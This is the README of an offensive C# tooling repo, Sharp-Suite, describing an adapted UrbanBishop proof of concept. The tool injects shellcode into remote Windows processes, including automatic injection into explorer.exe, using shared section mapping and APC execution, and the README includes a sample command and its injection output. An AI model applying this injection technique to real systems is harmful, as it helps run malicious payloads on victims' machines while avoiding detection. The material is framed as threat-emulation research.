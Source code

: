 # Edit

Adapted version of UrbanBishop such that it supports base64 encoded shellcode and automatically injects shellcode into explorer.exe. Therefore it can then be compiled into a single payload without needing any argument.

# Sharp-Suite

The king is dead, long live the king. I am starting a new repo with code samples in C#. My heart is still with PowerShell <3, lets face it using in-line C# in PowerShell is a much nicer experience than actually using C#! However, threat emulation has to evolve over time and so does the tooling.

## Pwn?

### UrbanBishop

UrbanBishop is a small POC I wrote while I was testing [Donut](https://github.com/TheWover/donut). If you haven't seen or used Donut I highly recommend you have a look at the magic TheWover & odzhan are doing there! This POC creates a local RW section in UrbanBishop and then maps that section as RX into a remote process. Once the shared section has been established the shellcode is written to the local section which then automatically propagates to the remote process. For execution UrbanBishop creates a remote suspended thread (start address is set to ntdll!RtlExitUserThread) and queues and APC on that thread, once resumed with NtAlertResumeThread the shellcode executes and the thread exits gracefully on completion. The POC can be adapted for inline shellcode but that was not my use case. I tested UrbanBishop on x64 Win10/Win7.

```
C:\> UrbanBishop.exe -i 3380 -p C:\Users\b33f\Desktop\sc.bin -c
   _O       _____     _
  / //\    |  |  |___| |_ ___ ___
 {     }   |  |  |  _| . | .'|   |
  \___/    |_____|_| |___|__,|_|_|
  (___)
   |_|          _____ _     _
  /   \        | __  |_|___| |_ ___ ___
 (_____)       | __ -| |_ -|   | . | . |
(_______)      |_____|_|___|_|_|___|  _|
/_______\                          |_|
                       ~b33f~

|--------
| Process    : notepad
| Handle     : 828
| Is x32     : False
| Sc binpath : C:\Users\b33f\Desktop\sc.bin
|--------

[>] Creating local section..
    |-> hSection: 0x338
    |-> Size: 31361
    |-> pBase: 0x2470000
[>] Map RX section to remote proc..
    |-> pRemoteBase: 0x16967970000
[>] Write shellcode to local section..
    |-> Size: 31361
[>] Seek export offset..
    |-> pRemoteNtDllBase: 0x7FFDE64A0000
    |-> LdrGetDllHandle OK
    |-> RtlExitUserThread: 0x7FFDE650CF10
    |-> Offset: 0x6CF10
[>] NtCreateThreadEx -> RtlExitUserThread <- Suspended..
    |-> Success
[>] Set APC trigger & resume thread..
    |-> NtQueueApcThread
    |-> NtAlertResumeThread
[>] Waiting for payload to finish..
    |-> Thread exit status -> 0
    |-> NtUnmapViewOfSection
```
